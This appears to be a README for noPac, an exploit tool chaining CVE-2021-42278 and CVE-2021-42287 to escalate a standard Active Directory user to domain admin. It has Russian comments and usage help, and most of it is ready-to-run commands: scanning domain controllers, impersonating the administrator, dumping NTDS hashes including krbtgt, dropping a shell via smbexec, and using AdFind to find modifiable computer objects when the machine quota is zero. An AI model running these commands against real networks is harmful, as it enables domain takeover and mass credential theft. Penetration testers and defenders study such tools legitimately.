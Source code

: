 ```
    #https://github.com/L34Rn/noPac-1
    #Сканирует на уязвимости, там где меньше Ticket size там уязвимо
    $ python3 scanner.py domain.local/username:'Password' -dc-ip 10.10.10.10
    # дампим хеш администратора через эту уязвимость
    $ python3 noPac.py domain.local/username:'Password' -dc-ip 10.10.10.10 -dc-host dc01 --impersonate administrator -dump -just-dc-user domain.local/Administrator
    # дампим все креды [-use-ldap опциональный параметр]
    $ python3 noPac.py domain.local/username:'Password' -dc-ip 10.10.10.10 -dc-host dc01 --impersonate administrator -dump [-use-ldap]
    # получаем шел [-use-ldap опциональный параметр]
    $ python3 noPac.py domain.local/username:'Password' -dc-ip 10.10.10.10 -dc-host dc01 --impersonate administrator -shell [-use-ldap]
```
## About

Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user 

Changed from [sam-the-admin](https://github.com/WazeHell/sam-the-admin).

## Usage
```
SAM THE ADMIN CVE-2021-42278 + CVE-2021-42287 chain

positional arguments:
  [domain/]username[:password]
                        Account used to authenticate to DC.

optional arguments:
  -h, --help            show this help message and exit
  --impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple domains.
  -new-name NEWNAME     Target computer name, if not specified, will be random generated.
  -new-pass PASSWORD    Add new computer password, if not specified, will be random generated.
  -old-pass PASSWORD    Target computer password, use if you know the password of the target you input with -new-name.
  -old-hash LMHASH:NTHASH
                        Target computer hashes, use if you know the hash of the target you input with -new-name.
  -debug                Turn DEBUG output ON
  -ts                   Adds timestamp to every logging output
  -shell                Drop a shell via smbexec
  -no-add               Forcibly change the password of the target computer.
  -create-child         Current account have permission to CreateChild.
  -dump                 Dump Hashs via secretsdump
  -use-ldap             Use LDAP instead of LDAPS

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on account parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.specified in the account parameter will be used

execute options:
  -port [destination port]
                        Destination port to connect to SMB Server
  -mode {SHARE,SERVER}  mode to use (default SHARE, SERVER needs root!)
  -share SHARE          share where the output will be grabbed from (default ADMIN$)
  -shell-type {cmd,powershell}
                        choose a command processor for the semi-interactive shell
  -codec CODEC          Sets encoding used (codec) from the target's output (default "GBK").
  -service-name service_name
                        The name of theservice used to trigger the payload

dump options:
  -just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified. Only available for DRSUAPI approach. Implies also -just-dc switch
  -just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos keys)
  -just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
  -pwd-last-set         Shows pwdLastSet attribute for each NTDS.DIT account. Doesn't apply to -outputfile data
  -user-status          Display whether or not the user is disabled
  -history              Dump password history, and LSA secrets OldVal
  -resumefile RESUMEFILE
                        resume file name to resume NTDS.DIT session dump (only available to DRSUAPI approach). This file will also be used to keep updating the session's state
  -use-vss              Use the VSS method insead of default DRSUAPI
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using -use-vss). Default: smbexec
```

>Note: If -host-name is not specified, the tool will automatically get the domain control hostname, please select the hostname of the host specified by -dc-ip. If --impersonate is not specified, the tool will randomly choose a doamin admin to exploit. Use ldaps by default, if you get ssl error, try add -use-ldap .

### GetST
```
python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202112131712015.png)

### Auto get shell
```
python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 -shell --impersonate administrator 
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/202112132025207.png)
### Dump hash
```
python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 --impersonate administrator -dump
python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 --impersonate administrator -dump -just-dc-user cgdomain/krbtgt
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202112132025423.png)


## Scanner
```
python scanner.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202112132151180.png)


## MAQ = 0
### Method 1
Find the computer that can be modified by the current user.
```
AdFind.exe -sc getacls -sddlfilter ;;"[WRT PROP]";;computer;domain\user  -recmute
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202112171448715.png)

Exp: add `-no-add` and target with `-new-name`.
```
python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.200 -dc-host dc2008 --impersonate administrator -no-add -new-name nopactest$
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/202112171451347.png)

### Method 2
Find CreateChild account, and use the account to exploit.
```
AdFind.exe -sc getacls -sddlfilter ;;"[CR CHILD]";;computer; -recmute
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/202112171455040.png)

Exp: add `-create-child`
```
python noPac.py cgdomain.com/venus:'1qaz@WSX' -dc-ip 10.211.55.200 -dc-host dc2008 --impersonate administrator -create-child
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/202112171456582.png)
